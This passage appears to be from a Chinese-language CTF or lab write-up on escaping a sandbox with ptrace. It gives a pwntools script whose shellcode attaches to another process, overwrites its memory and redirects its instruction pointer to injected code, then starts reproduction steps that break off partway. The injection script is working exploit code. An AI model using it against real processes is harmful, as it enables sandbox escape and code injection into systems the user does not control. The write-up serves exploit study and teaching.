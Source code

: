 ```python
regs_offset = 0x200

power_shellcode = shellcraft.ptrace(PTRACE_ATTACH, target_pid, 0, 0)
power_shellcode +=shellcraft.wait4(target_pid, 0, 0, 0)

power_shellcode +=f"""
sub rsp, {regs_offset}
mov r15, rsp
"""

power_shellcode +=shellcraft.ptrace(PTRACE_GETREGS, target_pid, 0, "r15")
power_shellcode +=f"""
lea r14, [r15+{rcx_offset}]
mov r13, [r14]
"""

for i in range(0, len(code), 1):
    power_shellcode +=f"mov r12, {code[i]}"
    power_shellcode +=shellcraft.ptrace(PTRACE_POKEDATA, target_pid, "r13", "r12")
    power_shellcode +=f"add r13, 8"

power_shellcode +=f"""
lea r11, [r15+{rip_offset}]
mov r14, [r14]
mov [r11], r14
"""
power_shellcode +=shellcraft.ptrace(PTRACE_SETREGS, target_pid, 0, "r15")
power_shellcode +=shellcraft.ptrace(PTRACE_CONT, target_pid, 0, 0)
power_shellcode +=shellcraft.ptrace(PTRACE_DETACH, target_pid, 0, 0)

io = process("./code")
gdb.attach(io)
power_shellcode = asm(power_shellcode)
io.send(power_shellcode)

io.interactive()
```
## 复现步骤

1. 在一个终端执行start.sh
![startsh](./ptrace沙箱逃逸/startsh.png)

2. 首先编译code(以提供给Pwn.py启动该程序)

3. 
    a.手动ps -A得到start.sh进程的PID, 将Pwn.py的target_pid改为此值. 运行`Pwn.py`, 其会先计算好注入`start.sh`的shellcode, 然后将其以8为单位转为数字(为了后文ptrace的POEKDATA服务, 因为POKEDATA就是8位单位向attach的进程写入数值)
